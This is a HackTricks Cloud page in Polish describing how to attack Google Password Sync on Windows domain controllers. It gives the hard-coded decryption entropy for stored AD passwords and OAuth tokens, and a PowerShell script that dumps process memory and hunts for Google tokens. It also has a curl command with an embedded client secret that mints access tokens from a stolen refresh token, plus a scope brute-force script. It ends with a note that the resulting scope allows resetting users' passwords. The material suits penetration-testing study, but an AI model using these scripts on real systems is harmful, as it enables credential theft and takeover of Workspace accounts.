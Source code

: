 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

To jest binarny plik i usługa, które Google oferuje w celu **utrzymania synchronizacji haseł użytkowników między AD** a Workspace. Za każdym razem, gdy użytkownik zmienia swoje hasło w AD, jest ono ustawiane w Google.

Instaluje się w `C:\Program Files\Google\Password Sync`, gdzie można znaleźć binarny plik `PasswordSync.exe` do jego konfiguracji oraz `password_sync_service.exe` (usługa, która będzie nadal działać).

### GPS - Konfiguracja

Aby skonfigurować ten plik binarny (i usługę), należy **przyznać mu dostęp do Super Admina w Workspace**:

* Zaloguj się za pomocą **OAuth** z Google, a następnie **zapisze token w rejestrze (szyfrowany)**
* Dostępne tylko w kontrolerach domeny z GUI
* Przyznanie **poświadczeń konta usługi z GCP** (plik json) z uprawnieniami do **zarządzania użytkownikami Workspace**
* Bardzo zły pomysł, ponieważ te poświadczenia nigdy nie wygasają i mogą być nadużywane
* Bardzo zły pomysł, aby dać SA dostęp do workspace, ponieważ SA może zostać skompromitowane w GCP i możliwe będzie przejście do Workspace
* Google wymaga tego dla kontrolowanych domen bez GUI
* Te poświadczenia są również przechowywane w rejestrze

Jeśli chodzi o AD, możliwe jest wskazanie, aby używało aktualnego **kontekstu aplikacji, anonimowego lub jakichś konkretnych poświadczeń**. Jeśli wybrano opcję poświadczeń, **nazwa użytkownika** jest przechowywana w pliku na **dysku**, a **hasło** jest **szyfrowane** i przechowywane w **rejestrze**.

### GPS - Zrzut hasła i tokenu z dysku

{% hint style="success" %}
Zauważ, że [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) jest w stanie wykryć **GPS**, uzyskać informacje o konfiguracji i **nawet odszyfrować hasło i token**.
{% endhint %}

W pliku **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** można znaleźć część konfiguracji, taką jak **`baseDN`** skonfigurowanego AD oraz **`username`**, których poświadczenia są używane.

W rejestrze **`HKLM\Software\Google\Google Apps Password Sync`** można znaleźć **szyfrowany token odświeżania** oraz **szyfrowane hasło** dla użytkownika AD (jeśli istnieje). Ponadto, jeśli zamiast tokenu używane są jakieś **poświadczenia SA**, również można je znaleźć w tym adresie rejestru. **Wartości** w tym rejestrze są dostępne tylko dla **Administratorów**.

Szyfrowane **hasło** (jeśli istnieje) znajduje się w kluczu **`ADPassword`** i jest szyfrowane za pomocą API **`CryptProtectData`**. Aby je odszyfrować, musisz być tym samym użytkownikiem, który skonfigurował synchronizację haseł i użyć tej **entropii** podczas korzystania z **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Szyfrowany token (jeśli istnieje) znajduje się w kluczu **`AuthToken`** i jest szyfrowany za pomocą API **`CryptProtectData`**. Aby go odszyfrować, musisz być tym samym użytkownikiem, który skonfigurował synchronizację haseł i użyć tej **entropii** podczas korzystania z **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Ponadto jest również kodowany za pomocą base32hex z użyciem słownika **`0123456789abcdefghijklmnopqrstv`**.

Wartości entropii zostały znalezione przy użyciu narzędzia. Zostało skonfigurowane do monitorowania wywołań do **`CryptUnprotectData`** i **`CryptProtectData`**, a następnie narzędzie zostało użyte do uruchomienia i monitorowania `PasswordSync.exe`, które odszyfruje skonfigurowane hasło i token autoryzacji na początku, a narzędzie **pokaże wartości entropii użytej** w obu przypadkach:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Zauważ, że możliwe jest również zobaczenie **odszyfrowanych** wartości w wejściu lub wyjściu wywołań do tych API (w przypadku, gdy w pewnym momencie Winpeas przestanie działać).

W przypadku, gdy synchronizacja haseł została **skonfigurowana z poświadczeniami SA**, również będzie przechowywana w kluczach w rejestrze **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Zrzut tokenów z pamięci

Podobnie jak w przypadku GCPW, możliwe jest zrzucenie pamięci procesu `PasswordSync.exe` oraz procesów `password_sync_service.exe`, a będziesz w stanie znaleźć tokeny odświeżania i dostępu (jeśli zostały już wygenerowane).\
Myślę, że można również znaleźć skonfigurowane poświadczenia AD.

<details>

<summary>Zrzut <code>PasswordSync.exe</code> i procesów <code>password_sync_service.exe</code> oraz wyszukiwanie tokenów</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generowanie tokenów dostępu z tokenów odświeżających

Używając tokena odświeżającego, możliwe jest generowanie tokenów dostępu przy użyciu go oraz identyfikatora klienta i tajnego klucza klienta określonych w następującym poleceniu:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Zakresy

{% hint style="info" %}
Zauważ, że nawet posiadając token odświeżający, nie jest możliwe żądanie żadnego zakresu dla tokena dostępu, ponieważ możesz żądać tylko **zakresów obsługiwanych przez aplikację, w której generujesz token dostępu**.

Ponadto, token odświeżający nie jest ważny w każdej aplikacji.
{% endhint %}

Domyślnie GPS nie będzie miał dostępu jako użytkownik do każdego możliwego zakresu OAuth, więc używając poniższego skryptu możemy znaleźć zakresy, które można wykorzystać z `refresh_token`, aby wygenerować `access_token`:

<details>

<summary>Skrypt Bash do brute-force zakresów</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

A oto wynik, który otrzymałem w momencie pisania:
```
https://www.googleapis.com/auth/admin.directory.user
```
Który jest taki sam, jak ten, który otrzymujesz, jeśli nie wskażesz żadnego zakresu.

{% hint style="danger" %}
Z tym zakresem możesz **zmodyfikować hasło istniejącego użytkownika, aby zwiększyć uprawnienia**.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
